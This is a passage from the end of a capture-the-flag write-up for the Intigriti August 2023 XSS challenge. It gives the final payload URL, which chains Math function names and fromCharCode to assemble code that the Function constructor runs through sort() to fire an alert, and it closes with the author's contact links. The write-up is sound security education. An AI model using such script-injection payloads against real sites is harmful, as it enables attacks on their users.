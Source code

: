And the result is

![Final Steps To Get Final String](./imgs/steps_till_payload_string.png)

Now the only thing to do is to pass that string to the `Function()` we talked about earlier and call it using sort() array method.

### Joining it all together

Joining it all together, this is the last payload:

https://challenge-0823.intigriti.io/challenge/index.html?q=Math.seeds.pop,Math.abs.name.charAt,Math.seeds.push,Math.cos,Math.log.name.charAt,Math.seeds.push,Math.cos,Math.exp.name.charAt,Math.seeds.push,Math.cos,Math.round.name.charAt,Math.seeds.push,Math.sin,Math.tan.name.charAt,Math.seeds.push,Math.clz32,Math.cosh,Math.log2,Math.ceil,Math.toString.name.constructor.fromCharCode,Math.seeds.push,Math.tan,Math.constructor.defineProperties.name.charAt,Math.seeds.push,Math.log10,Math.round.name.charAt,Math.seeds.push,Math.cos,Math.ceil.name.charAt,Math.seeds.push,Math.cos,Math.seeds.unshift.name.charAt,Math.seeds.push,Math.cos,Math.max.name.charAt,Math.seeds.push,Math.sin,Math.exp.name.charAt,Math.seeds.push,Math.log,Math.sin.name.charAt,Math.seeds.push,Math.tan,Math.sqrt.name.charAt,Math.seeds.push,Math.sqrt,Math.atan,Math.exp,Math.exp,Math.ceil,Math.toString.name.constructor.fromCharCode,Math.seeds.push,Math.sqrt,Math.round.name.charAt,Math.seeds.push,Math.log10,Math.round.name.charAt,Math.seeds.push,Math.sin,Math.max.name.charAt,Math.seeds.push,Math.tan,Math.abs.name.charAt,Math.seeds.push,Math.tanh,Math.sin.name.charAt,Math.seeds.push,Math.acosh,Math.round.name.charAt,Math.seeds.push,Math.sqrt,Math.clz32,Math.cosh,Math.log2,Math.ceil,Math.toString.name.constructor.fromCharCode,Math.seeds.push,Math.seeds.shift,Math.seeds.shift,Math.seeds.shift,Math.seeds.shift,Math.floor,Math.seeds.constructor,Math.seeds.join,Math.constructor.constructor,Math.seeds.sort

And here our goal is achieved!

![Final Alert](./imgs/final_alert.png)

## Conclusion

This task was so fun to do ~~because I like javascript so much~~. Greetz to huli for making such a fun and nice quality challenge as usual. I surely made mistakes through out my first thoughts which made me loose some time but having the main idea and limiting it with the environment you're in and the constraints being applied will make you recover fast! Also having some experience with stuff like this will make you advance and think better. I hope you enjoyed reading the article and thanks for your time everyone!

You can contact me on:

- Twitter: https://twitter.com/t0m7r00z
- Discord: Iy3dMejri#1997
- LinkedIn: https://www.linkedin.com/in/iyed-mejri/
